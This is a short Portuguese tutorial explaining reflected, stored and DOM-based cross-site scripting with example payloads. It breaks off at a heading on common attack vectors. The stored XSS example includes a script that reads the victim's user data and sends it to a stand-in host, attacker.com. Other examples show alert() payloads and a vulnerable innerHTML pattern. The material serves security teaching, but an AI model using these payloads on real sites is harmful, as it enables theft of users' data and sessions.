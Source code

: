 # XSS - Cross-Site Scripting

XSS é uma vulnerabilidade que permite a atacantes injetar scripts maliciosos em páginas web visualizadas por outros usuários. O código malicioso executa no contexto do navegador da vítima, permitindo roubo de dados, sequestro de sessões e manipulação de conteúdo.

## Tipos de XSS

### **1. Reflected XSS (Não Persistente)**
- Payload refletido imediatamente na resposta
- Requer interação da vítima (clicar em link malicioso)
- Mais comum em parâmetros de URL e formulários

```html
<!-- URL maliciosa -->
https://vulnerable-site.com/search?q=<script>alert('XSS')</script>

<!-- Resposta da aplicação -->
<p>Resultados para: <script>alert('XSS')</script></p>
```

### **2. Stored XSS (Persistente)**
- Payload armazenado no servidor (banco de dados, arquivos)
- Executa automaticamente para todos os usuários que acessam a página
- Mais perigoso devido à persistência

```html
<!-- Comentário malicioso salvo no banco -->
<div class="comment">
    <script>
        fetch('/api/user', {credentials: 'include'})
        .then(r => r.json())
        .then(data => fetch('//attacker.com/steal?data=' + btoa(JSON.stringify(data))))
    </script>
</div>
```

### **3. DOM-based XSS**
- Manipulação do DOM pelo JavaScript no lado cliente
- Payload nunca enviado ao servidor
- Ocorre inteiramente no navegador

```javascript
// Código vulnerável
let search = location.search.substring(1);
document.getElementById('results').innerHTML = "Buscando por: " + search;

// URL maliciosa
https://site.com/search.html?<img src=x onerror=alert('XSS')>
```

## Vetores de Ataque Comuns
